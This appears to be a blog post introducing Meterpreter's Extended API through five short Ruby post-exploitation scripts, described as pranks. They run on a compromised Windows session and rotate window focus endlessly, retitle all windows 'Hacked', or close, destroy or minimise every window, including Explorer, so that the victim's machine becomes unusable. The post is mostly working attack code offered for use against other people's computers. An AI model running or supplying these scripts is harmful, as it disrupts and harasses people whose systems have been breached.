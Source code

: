 = "ExtAPI Pranks"
:hp-tags: 

Since I've been gone, OJ has released the ExtAPI (Extended API) for Meterpreter. This has some pretty amazing functionality. You can find [OJ](https://twitter.com/TheColonial)'s write up on it and more amazing things he did in [3 months of meterpreter](http://buffered.io/posts/3-months-of-meterpreter/) and on the [Metasploit blog](https://community.rapid7.com/community/metasploit/blog/2013/12/12/weekly-metasploit-update).

Just brushing the surface and to help people see the power of this new functionality I went ahead and created a few Meterpreter scripts that can really mess with someone.

1st is a script that loops through all of the windows for your current user and sets the focus to them in rotation. Essentially making their machine unusable.

* Source: https://gist.github.com/mubix/8050500
```ruby
# Code loops around each of the windows
# that the current user has open and switches
# focus to each of them in rotation... 100 times.
 
(0..100).each do |x|
	windows = client.extapi.window.enumerate
	windows.each do |winder|
		if winder[:title] != 'Default IME'
			result = client.railgun.user32.SetForegroundWindow(winder[:handle])
		end
	end
	print_status("Round #{x}")
end
```

2nd just sets all of the windows title's the say "hacked"

* Source: https://gist.github.com/mubix/8050592
```ruby
windows = client.extapi.window.enumerate
windows.each do |winder|
  if winder[:title] != 'Default IME'
    result = client.railgun.user32.SetWindowTextA(winder[:handle],"Hacked")
  end
end
```

and finally if in Windows if you close all of the windows, including "invisible" ones like Explorer, you will essentially make the machine unusable.

* Source: https://gist.github.com/mubix/8050653
```ruby
windows = client.extapi.window.enumerate
windows.each do |winder|
	result = client.railgun.user32.CloseWindow(winder[:handle])
end
```

OJ suggested a few other options:

Destroy:
```ruby
windows = client.extapi.window.enumerate
windows.each do |winder|
    result = client.railgun.user32.DestroyWindow(winder[:handle])
end
```

or Minimize all:
```ruby
windows = client.extapi.window.enumerate
windows.each do |winder|
    result = client.railgun.user32.ShowWindow(winder[:handle], 6)
end
```

Thats it for now, next up we will do a few things with services as well as the clipboard. Stay tuned!